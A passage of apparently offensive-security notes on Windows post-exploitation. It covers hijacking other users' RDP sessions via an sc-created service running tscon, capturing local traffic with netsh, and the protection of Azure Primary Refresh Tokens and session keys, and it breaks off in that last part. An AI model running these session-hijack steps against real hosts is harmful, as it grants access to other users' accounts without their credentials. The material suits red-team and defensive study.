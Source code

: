### RDP Session Hijacking

If `Administrator` / `NT AUTHORITY\SYSTEM` privileges could be obtained on a
host, `Remote Desktop Protocol (RDP)` sessions of others users can be hijacked.
This could be leveraged to access the host under the security context of the
hijacked user, through a graphical explorer, with out knowing its password.

Note that:
  - Hijacking of disconnected sessions is possible.

  - Hijacking a session will unlock locked sessions (with out the need to
    provide credentials).

Retrieve the `ID` of the eventual `RDP` sessions present on the host:

```bash
# SESSIONNAME = rdp-*
query user
```

Create and start a service that will execute `tscon` to hijack the specified
`RDP` session:

```bash
sc create sesshijack binpath= "cmd.exe /k tscon <SESSION_ID> /dest:<SESSION_NAME>"
sc start sesshijack
```

### Network packet capture

The Windows `netsh` built-in utility can be used to the traffic of the local
system. The network capture will be exported in the `ETL` format, which can
be converted to `pcap` using, for example,
[`Microsoft Message Analyzer`](https://docs.microsoft.com/en-us/message-analyzer/microsoft-message-analyzer-operating-guide).

```bash
# Captures the local network traffic, optionally to the specified IP.
netsh trace start capture=yes [tracefile=<OUTPUT_ETL>] [IPv4.Address=<IP>]

# Stops the network capture.
netsh trace stop
```

### Azure related credentials

#### Primary Refresh Token for Azure-joined devices

The `Primary Refresh Token (PRT)` is a `JWT` token used on Azure AD joined or
hybrid-joined devices to achieve single sign-on on `Azure AD`. The `PRT` is
used to request refresh and access tokens to access Azure / AzureAD resources
and has a validity period of 14 days.

When a `PRT` is issued, [AzureAD also issues an encrypted `session key` to the device](https://learn.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#how-is-the-prt-protected).
This `session key` is used as the (required) Proof-of-Possession (POP) key for
any token requests or `PRT` renewal (by signing tokens requests). The
`session key` is encrypted using `DPAPI`, with a DPAPI `MasterKey` of the
machine. Additionally, on devices with a `TPM`, the `session key` is also
protected by the `TPM` and cannot be directly accessed. Instead a `derived key`
can be retrieved through the `TPM` to conduct the token request process.
